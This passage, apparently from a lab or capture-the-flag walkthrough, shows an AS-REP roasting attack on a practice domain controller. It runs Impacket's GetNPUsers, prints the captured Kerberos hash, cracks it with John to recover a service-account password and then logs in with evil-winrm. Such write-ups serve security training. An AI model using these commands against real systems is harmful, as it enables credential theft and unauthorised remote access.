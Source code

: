 It’s worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket’s GetNPUsers. 

`/tmp/impacket/examples`

`GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30`


```
python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.24.dev1+20210917.161743.0297480b - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:c0aaaeb7928bf9b22eaeea2223e0b27d$38095cd756a81f80c537ab9433fd385f8e34a4edffc1b3a0ce56ee4893cf3245a1180f8d6a9ce0e373bf4e34caea664b5cf59604461a7d4460327b589bcc22b3ea228bca822348cb412034831d3b13796f58be0f74aa08d10742177297880a92a9c279d5acf6c43678fdd110bef4808dea64de81dacce883434b8315327a45a77ced2c618a1c2c73b2fed229b859bfff0e9df56bf210f70a7e8b4c7be41d1d07b5ecd3def166be24b1f44b8b55ef6943e6611b6ac86e1584cfe888d9426b7e359227ce490abcd43db7e9b6b0fcb03ab72c4b1aa60857015895bebcd84171560fd1b6935faacdc5be736d387e12d62e6d
```

Once you have the TGT ticket, you can crack it using John

`john tgt_hash -wordlist=/usr/share/wordlists/rockyou.txt`

This gives you `Sheffield19`

`svc_bes:Sheffield19`

We can now user WinRM to access the machine and get user.txt
`evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`
